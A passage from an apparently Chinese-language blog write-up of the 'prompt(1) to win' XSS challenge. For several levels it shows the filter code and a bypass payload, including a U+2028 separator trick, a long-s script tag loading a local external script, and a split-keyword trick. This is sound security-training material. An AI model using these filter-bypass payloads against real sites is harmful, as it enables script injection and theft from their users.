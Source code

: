     return '                                \n\
&lt;script>                                    \n\
    // console.log("' + input + '");        \n\
&lt;/script> ';
}        </code></pre>

过滤了两个换行符，所以需要一个特殊的编码技巧：

<pre class="wp-block-code"><code>U+2028，是Unicode中的行分隔符。
U+2029，是Unicode中的段落分隔符。
--> 在 js 中可当注释使用</code></pre>

在console中输入：`'\u2028prompt(1)\u2028-->'`或者 `'\u2029prompt(1)\u2029-->'` 输出的结果就是payload。<figure class="wp-block-image size-full">

<img loading="lazy" width="363" height="108" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-178.png" alt="" class="wp-image-2935" /> </figure> 

## 0x09

<pre class="wp-block-code"><code>function escape(input) {
    // filter potential start-tags
    input = input.replace(/&lt;(&#91;a-zA-Z])/g, '&lt;_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '&lt;h1>' + input + '&lt;/h1>';
}    </code></pre>

思路之前在XSS弹窗挑战里说过，给个payload，`<ſcript/src="http://127.0.0.1/1.js">`

## 0x0A

<pre class="wp-block-code"><code>function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '&lt;script>' + input + '&lt;/script> ';
}      </code></pre>

encodeURIComponent()不会对 ASCII 字母和数字进行编码，也不会对这些 ASCII 标点符号进行编码： - _ . ! ~ * ' ( ) 。其他字符（比如：;/?:@&=+$,# 这些用于分隔 URI 组件的标点符号），都是由一个或多个十六进制的转义序列替换的。且过滤单引号，可以考虑构造`p'rompt(1)`

## 0x0B

<pre class="wp-block-code"><code>function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/&#91;&#91;|\s+*/\\&lt;>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';
    